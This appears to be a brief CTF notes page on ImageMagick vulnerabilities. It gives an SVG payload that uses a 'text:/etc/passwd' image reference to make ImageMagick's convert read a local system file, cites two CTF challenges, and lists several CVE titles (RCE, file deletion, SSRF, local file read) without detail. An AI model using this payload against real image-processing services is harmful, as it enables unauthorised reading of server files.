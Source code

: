 # ImageMagick

## ImageMagick convert read file

```
<?xml version="1.0" encoding="UTF-8"?>
<svg width="120px" height="120px">
  <image width="120" height="120" href="text:/etc/passwd" />
</svg>
```

例题：

tctf 2020 Wechat Generator

GoogleCTF 2019 GPhotos



## CVE-2016-3714— RCE



## CVE-2016-3715-任意文件删除



## CVE-2016-3716-任意文件移动漏洞



## CVE-2016-3717-本地文件读取漏洞



## CVE-2016-3718-SSRF



## CVE-2017-15277-内存泄露



## CVE-2017–8291-GhostScript Type Confusion RCE



## CVE-2018-16509-内存泄漏